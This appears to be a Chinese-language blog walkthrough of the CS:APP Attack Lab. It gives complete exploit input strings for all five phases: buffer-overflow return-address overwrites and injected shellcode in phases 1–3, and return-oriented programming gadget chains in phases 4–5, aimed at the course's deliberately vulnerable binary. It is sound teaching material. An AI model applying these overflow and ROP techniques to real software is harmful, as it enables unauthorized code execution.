 ## Phase1
phase1很简单，关键就是**用touch1的地址覆盖掉原来的返回地址**
直接用objdump反汇编一下

![attacklab](/assets/imgs/attacklab/attacklab-1.png)

不难注意到在getbuf中的第一行就在栈帧上分配了18个bytes的空间，那么我们只需要首先给出18个bytes的垃圾值，再在后面跟上touch1的地址覆盖掉原来的返回地址，程序就会在ret时跳转到touch1
于是，我们就得到了Phase1的解

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
10 17 40 00 00 00 00 00 //touch1
```

运行结果如下

![attacklab](/assets/imgs/attacklab/attacklab-2.png)

## Phase2
和Phase1的不同在于Phase2需要传递参数，即**把我的cookie传递到rdi寄存器中**
所以需要想办法让程序执行下面的汇编代码

```nasm
movq $0x45730404,%rdi
pushq $0x40173c
ret
```

其中0x40173c是touch2的地址

使用gcc编译再用objdump反汇编，会得到

```nasm
0000000000000000 <.text>:
   0:	48 c7 c7 04 04 73 45 	mov    $0x45730404,%rdi
   7:	68 3c 17 40 00       	push   $0x40173c
   c:	c3                   	ret
```

这样就得到了想要执行的代码，只需要想办法让程序能够执行这些代码就可以了
尝试把这段代码当做输入，那么只需要获取这段代码的地址即可
于是，我们使用gdb，在getbuf上打上断点，即可得到此时的栈顶地址，也就是这段代码的地址：0x55657f98

![attacklab](/assets/imgs/attacklab/attacklab-3.png)

于是尝试以下的输入：

```
48 c7 c7 04 04 73 45 68
3c 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
98 7f 65 55 00 00 00 00
```

会发现非常顺利

![attacklab](/assets/imgs/attacklab/attacklab-4.png)

## Phase3
不难发现Phase3和Phase2的差别并不是很大， 只不过想要传递的值变为了字符串(我的cookie)的地址而已，但我的cookie在原程序中并不存在，所以只能通过我的输入存储在栈上。

我的cookie是0x45730404，转换为ascii码是34 35 37 33 30 34 30 34，文档中说

> The string should consist of the eight hexadecimal digits (ordered from most to least significant) without a leading “0x.”

于是我的第一个解答诞生了

```
34 35 37 33 30 34 30 34
48 c7 c7 98 7f 65 55 68
4d 18 40 00 c3 00 00 00
a0 7f 65 55 00 00 00 00
```

我的想法就是把需要的字符串首先输入，存储在getbuf的栈帧上，然后就可执行如下指令

```nasm
movq $0x55657f98,%rdi 
pushq $0x40184d
ret
```

这其中，0x55657f98是getbuf的栈顶的位置，此时这里存储着需要的字符串，0x40184d是touch3的地址。由于0x55657f98上并不是想要执行的代码，所以在输入中，把返回地址覆盖为0x55657fa0。
出乎我的意料的是竟然没有成功，仔细看文档，发现在Advice中还有这种东西：

>When functions hexmatch and strncmp are called, they push data onto the stack, overwriting portions of memory that held the buffer used by getbuf. As a result, you will need to be careful where you place the string representation of your cookie.

所以我的字符串并不能放在getbuf的栈帧中....
注意到getbuf是由test调用，二者的关系如下：

```c
unsigned getbuf()
{
	char buf[BUFFER_SIZE];
	Gets(buf);
	return 1;
}

void test()
{
	int val;
	val = getbuf();
	printf("...");
}
```

所以接下来尝试把字符串放在test的栈帧中
于是有了第二个答案：

```
48 c7 c7 b8 7f 65 55 68
4d 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
98 7f 65 55 00 00 00 00
34 35 37 33 30 34 30 34
```

与第一个答案不同的是，在我想要执行的指令中，字符串的地址变为了0x55657fb8。这是因为此时字符串在test的栈帧中，我们获取test的栈顶地址

![attacklab](/assets/imgs/attacklab/attacklab-5.png)

就是字符串的地址
于是Phase3就被我们解决了

![attacklab](/assets/imgs/attacklab/attacklab-6.png)

## Phase4
从Phase4开始就进入了ROP阶段，由于栈的随机化等等保护措施，我们并不能像前三个Phase那样
直接注入代码，而是调用程序中本就存在的代码，也就是gadget
Phase4仍然是解决touch2，需要输入我们的cookie
首先我们需要想办法把我们的cookie传递到程序中，由于栈的位置不确定，不能直接使用立即数了，只能想办法把cookie传递给rdi寄存器
我们只需要把我的cookie放到栈顶，然后执行如下指令

```nasm
popq %rdi
ret
```

然而我们翻遍`farm`也只能找到`popq %rax`对应的字节码，于是只能这样

```nasm
popq %rax  //58
movq %rax,%rdi //48 89 c7
```

![attacklab](/assets/imgs/attacklab/attacklab-7.png)
![attacklab](/assets/imgs/attacklab/attacklab-8.png)

二者可以在如上的位置找到，于是我们就得到了解

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ec 18 40 00 00 00 00 00
04 04 73 45 00 00 00 00
12 19 40 00 00 00 00 00
3c 17 40 00 00 00 00 00 //touch2
```

![attacklab](/assets/imgs/attacklab/attacklab-9.png)

尝试运行，发现成功解决

## Phase5
这最后一个Phase同样是通过ROP的方式让程序执行touch3，同样的，需要想办法把我的cookie字符串放在栈上，并想办法把它的地址传递给rdi寄存器
同样由于栈的地址不确定，不能直接解决
注意到`farm.c`中有这样一个函数

```c
/* Add two arguments */
long add_xy(long x, long y)
{
	return x+y;
}
```

其对应的汇编是这样

```nasm
0000000000401923 <add_xy>:
  401923: 48 8d 04 37           lea    (%rdi,%rsi,1),%rax
  401927: c3                    ret
```

或许我们可以想办法获取rsp的值和cookie字符串在栈上的偏移量，然后利用这个函数来得到字符串的绝对地址
首先想办法获取rsp的值，在`farm.c`的汇编文件中搜索一下，发现只能执行`movq %rsp,%rax`

![attacklab](/assets/imgs/attacklab/attacklab-10.png)

这里的`48 89 e0`即是`movq %rsp,%rax`
接下来我们想执行`movq %rax,%rdi`或者`movq %rax,%rsi`，一搜索，还真有！

![attacklab](/assets/imgs/attacklab/attacklab-11.png)

然而只有`48 89 c7`，也就是`movq %rax,%rdi`
那么我们只能想办法把偏移量传给rsi了，我们这时候显然并不知道偏移量，但我们知道如何把偏移量传递给寄存器，也就是使用popq指令，然而同样的，我们只能找到`popq %rax`对应的字节码，接下来的任务就是想办法把rax的值传给rsi了
经过一系列的尝试(这里就不写了)，我们最后发现只有这么一套操作是可行的：

```nasm
movl %eax,%ecx
movl %ecx,%edx
movl %edx,%esi
```

于是我们可以暂时的得到我们的答案了

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
3f 19 40 00 00 00 00 00 //movq %rsp,%rax
12 19 40 00 00 00 00 00 //movq %rax,%rdi
ec 18 40 00 00 00 00 00 //popq %rax
XX 00 00 00 00 00 00 00 //偏移量
af 19 40 00 00 00 00 00 //movl %eax,%ecx
73 19 40 00 00 00 00 00 //movl %ecx,%edx
8e 19 40 00 00 00 00 00 //movl %edx,%esi
23 19 40 00 00 00 00 00 //lea (%rdi,%rsi,1),%rax
12 19 40 00 00 00 00 00 //movq %rax,%rdi 再把字符串的地址传递给rdi
4d 18 40 00 00 00 00 00 //touch3
34 35 37 33 30 34 30 34 //Cookie字符串
```

有了这些，也不难确定偏移量XX为0x48了，尝试运行

![attacklab](/assets/imgs/attacklab/attacklab-12.png)

到此，全部解决！

